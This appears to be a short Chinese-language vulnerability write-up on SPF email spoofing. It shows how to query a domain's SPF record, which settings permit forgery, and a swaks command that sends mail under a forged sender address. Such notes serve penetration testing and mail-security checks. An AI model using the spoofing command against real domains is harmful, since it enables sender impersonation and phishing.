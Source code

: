 ## 1. PoC

检测 spf 记录

```
┌──(root@debian)-[~]
└─# nslookup -type=TXT example.com
Server:         8.8.8.8
Address:        8.8.8.8#53

Non-authoritative answer:
example.com     text = "_k2n1y4vw3qtb4skdx9e7dxt97qrmmq9"
example.com     text = "v=spf1 -all"

Authoritative answers can be found from:
```

```
v=spf1 -all: 无法伪造
v=spf1 ~all, v=spf1 ?all: 可能伪造
无 v=spf1 或 v=spf1 +all: 极易伪造
```

使用 [SPF Query Tool ](https://www.kitterman.com/spf/validate.html) 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护

![使用 SPF Query Tool 解析 SPF 记录是否配置正确, 若配置错误则可尝试绕过 SPF 保护](./../../../image/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E4%BD%BF%E7%94%A8%20SPF%20Query%20Tool%20%E8%A7%A3%E6%9E%90%20SPF%20%E8%AE%B0%E5%BD%95%E6%98%AF%E5%90%A6%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE,%20%E8%8B%A5%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%99%E5%8F%AF%E5%B0%9D%E8%AF%95%E7%BB%95%E8%BF%87%20SPF%20%E4%BF%9D%E6%8A%A4.png)

配置正确

```
v=spf1 include:spf1.example.com include:spf2.example.com include:spf3.example.com include:spf4.example.com -all
```

![配置正确](./../../../image/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E6%AD%A3%E7%A1%AE.png)

配置错误

```
v=spf1 include:spf1.example.com spf2.example.com spf3.example.com spf4.example.com -all
```

![配置错误](./../../../image/SPF%20%E9%82%AE%E4%BB%B6%E4%BC%AA%E9%80%A0%E6%BC%8F%E6%B4%9E/%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF.png)

## 2. Exploit

伪造 example 向 test 发送邮件

```
┌──(root-kali)-[~]          
└─# swaks --body "Hello, World!" --header "Subject:example" -t admin@test.com -f admin@example.com
```

```
--body   邮件内容
--header 邮件标题
-t       目标邮箱
-f       伪造邮箱
```

